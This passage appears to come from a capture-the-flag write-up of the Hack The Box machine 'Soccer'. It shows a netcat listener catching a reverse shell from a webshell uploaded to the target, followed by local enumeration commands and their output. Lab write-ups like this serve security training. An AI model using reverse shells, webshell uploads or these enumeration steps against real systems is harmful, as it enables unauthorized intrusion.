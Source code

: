 ## Initial access
Let's check our netcat listener to see if we have a connection.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Soccer]
└─$ rlwrap nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.124] from soccer.htb [10.129.214.90] 56458
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@soccer:~/html/tiny/uploads$ 

```
We have a connection with the target, now the local enumeration starts on the target. We should gather as much as possible about the system.
```
www-data@soccer:~/html/tiny/uploads$ whoami;id;hostname;ip a ;pwd
whoami;id;hostname;ip a ;pwd
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
soccer
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:96:03:e6 brd ff:ff:ff:ff:ff:ff
    inet 10.129.214.90/16 brd 10.129.255.255 scope global dynamic eth0
       valid_lft 2484sec preferred_lft 2484sec
    inet6 dead:beef::250:56ff:fe96:3e6/64 scope global dynamic mngtmpaddr 
       valid_lft 86392sec preferred_lft 14392sec
    inet6 fe80::250:56ff:fe96:3e6/64 scope link 
       valid_lft forever preferred_lft forever
/var/www/html/tiny/uploads
www-data@soccer:~/html/tiny/uploads$ 

```
We are `www-data` and working in the directory were we have uploaded our webshell.
There are no other network available for us. Let's continue with enumerating information about the system.
```bash
www-data@soccer:~/html/tiny/uploads$ uname -a
uname -a
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
www-data@soccer:~/html/tiny/uploads$ cat /etc/issue
cat /etc/issue
Ubuntu 20.04.5 LTS \n \l

```
